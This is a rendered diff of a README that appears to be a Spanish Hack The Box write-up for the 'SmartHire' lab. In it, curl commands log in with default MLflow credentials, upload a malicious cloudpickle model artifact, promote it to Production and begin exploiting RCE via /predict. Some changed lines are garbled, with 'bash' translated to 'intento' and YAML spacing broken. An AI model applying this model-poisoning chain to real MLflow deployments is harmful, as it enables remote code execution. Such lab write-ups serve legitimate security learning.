

Before and after one commit to Cosm3No1de/SmartHire-HTB-, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style.

```diff
--- a/README.md
+++ b/README.md
@@ -74,30 +46,30 @@ echo "10.129.245.215 smarthire.htb models.smarthire.htb" | sudo tee -a /etc/host
 Credenciales por Defecto
 bash
 
-curl -s -u admin:[REDACTED] http://models.smarthire.htb/
+curl -s -u admin:password http://models.smarthire.htb/
 
-    ✅ Acceso confirmado. El servicio expone la interfaz de MLflow.
-
+✅ Acceso confirmado. El servicio expone la interfaz de MLflow.
 Creación del Experimento y Run
 bash
 
 # Crear experimento
-curl -X POST -u admin:[REDACTED] \
+curl -X POST -u admin:password \
   "http://models.smarthire.htb/ajax-api/2.0/mlflow/experiments/create" \
   -H "Content-Type: application/json" \
   -d '{"name": "SmartHire"}'
 # → experiment_id: "299186230178410763"
 
 # Crear run
-curl -X POST -u admin:[REDACTED] \
+curl -X POST -u admin:password \
   "http://models.smarthire.htb/ajax-api/2.0/mlflow/runs/create" \
   -H "Content-Type: application/json" \
   -d '{"experiment_id": "299186230178410763", "start_time": 1700000000000, "tags": [{"key": "mlflow.runName", "value": "testcompany-run"}]}'
 # → run_id: "35c41f3b28964ceab42b804d82d5cfee"
 
 Generación del Artefacto Malicioso (cloudpickle)
+
 gen_payload.py
-Python
+python
 
 import cloudpickle, os
 
@@ -109,60 +81,61 @@ class Payload:
 with open('/tmp/python_model.pkl', 'wb') as f:
     cloudpickle.dump(Payload(), f)
 
-bash
+intento
 
 python3 gen_payload.py
 
 Subida de Artefactos y Registro del Modelo
-MLmodel (YAML):
+
+MLmodel(YAML):
 yaml
 
-time_created: '2026-07-02 01:00:00.000000'
-flavors:
-  python_function:
-    model_path: python_model.pkl
-    loader_module: mlflow.sklearn
-    python_version: 3.10.12
+time_created  :   '2026-07-02 01:00:00.000000'
+ flavors  :
+   python_function  :
+     model_path  :  python_model.pkl
+     loader_module  :  mlflow.sklearn
+     python_version  :  3.10.12
 
-bash
+intento
 
 # Subir MLmodel
-curl -X POST -u admin:[REDACTED] \
+curl -X POST -u admin:password \
   "http://models.smarthire.htb/ajax-api/2.0/mlflow/upload-artifact?run_uuid=35c41f3b28964ceab42b804d82d5cfee&path=model/MLmodel" \
   -H "Content-Type: text/plain" --data-binary @/tmp/MLmodel
 
 # Subir payload
-curl -X POST -u admin:[REDACTED] \
+curl -X POST -u admin:password \
   "http://models.smarthire.htb/ajax-api/2.0/mlflow/upload-artifact?run_uuid=35c41f3b28964ceab42b804d82d5cfee&path=model/python_model.pkl" \
   -H "Content-Type: application/octet-stream" --data-binary @/tmp/python_model.pkl
 
 Registro y Promoción a Production
-bash
+intento
 
 # Registrar modelo
-curl -X POST -u admin:[REDACTED] \
+curl -X POST -u admin:password \
   "http://models.smarthire.htb/ajax-api/2.0/mlflow/registered-models/create" \
   -H "Content-Type: application/json" \
   -d '{"name": "testcompany-209c9516c5b6-model"}'
 
 # Crear versión 3 (payload final)
-curl -X POST -u admin:[REDACTED] \
+curl -X POST -u admin:password \
   "http://models.smarthire.htb/ajax-api/2.0/mlflow/model-versions/create" \
   -H "Content-Type: application/json" \
   -d '{"name": "testcompany-209c9516c5b6-model", "source": "mlflow-artifacts:/299186230178410763/35c41f3b28964ceab42b804d82d5cfee/artifacts/model", "run_id": "35c41f3b28964ceab42b804d82d5cfee"}'
 # → version 3
 
 # Promover a Production
-curl -X POST -u admin:[REDACTED] \
+curl -X POST -u admin:password \
   "http://models.smarthire.htb/ajax-api/2.0/mlflow/model-versions/transition-stage" \
   -H "Content-Type: application/json" \
   -d '{"name": "testcompany-209c9516c5b6-model", "version": "3", "stage": "Production"}'
 
 3. Explotación – RCE vía /predict
 Obtención de Sesión en SmartHire
-bash
+intento
 
 # Registro
-curl -c cookies.txt -X POST http://smarthire.htb/register \
-  -d "username=test&password=test&company=testcompany"
+ curl   -c  cookies.txt  -X  POST http://smarthire.htb/register  \
+   -d   "username=test&password=test&company=testcompany"
 
```
Also changed, not shown: other parts of README.md (+53 -78 lines).
